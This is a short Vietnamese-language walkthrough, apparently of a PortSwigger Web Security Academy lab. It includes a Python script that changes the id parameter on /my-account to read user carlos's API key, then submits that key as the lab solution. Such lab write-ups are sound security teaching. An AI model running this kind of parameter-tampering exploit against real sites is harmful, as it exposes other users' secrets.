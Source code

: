 ![image](https://hackmd.io/_uploads/SkvuJq3Ya.png)

Submit giá trị API key tại Submit solution để hoàn thành lab này.

![image](https://hackmd.io/_uploads/HJbyZ92YT.png)

mình đã viết lại script khai thác

```python=
#!/usr/bin/python3.7
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from bs4 import BeautifulSoup

url = 'https://0a0a00c003fded6180a535dd006c001b.web-security-academy.net'

params = {
    'id': 'carlos',
}

response = requests.get(
    url + '/my-account',
    params=params,
    verify=False,
    allow_redirects=False
)

pattern = r'\b\w{32}\b'
match = re.search(pattern, response.text).group()

data = {
    'answer': match,
}

response = requests.post(
    url + '/submitSolution',
    data=data,
    verify=False,
)

# print(response.text) # hiển thị response có flag
soup = BeautifulSoup(response.text, 'html.parser')
print(soup)
```

![image](https://hackmd.io/_uploads/SJiTNqhKp.png)

mục đích của chúng ta là lấy API của carlos đã hoàn thành và mình cũng giải quyết được bài lab này

![image](https://hackmd.io/_uploads/S1BlSqntT.png)
